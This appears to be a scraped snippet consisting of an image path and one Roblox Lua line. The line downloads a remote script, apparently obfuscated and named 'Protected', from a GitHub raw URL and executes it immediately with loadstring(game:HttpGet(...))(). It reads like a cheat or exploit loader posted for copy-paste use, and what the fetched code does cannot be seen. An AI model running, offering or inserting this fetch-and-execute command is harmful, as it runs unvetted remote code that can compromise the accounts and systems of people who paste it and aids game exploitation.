 loadstring(game:HttpGet("https://raw.githubusercontent.com/XeroxSp/KobenV8/main/Protected_1843706688290309.lua.txt"))()
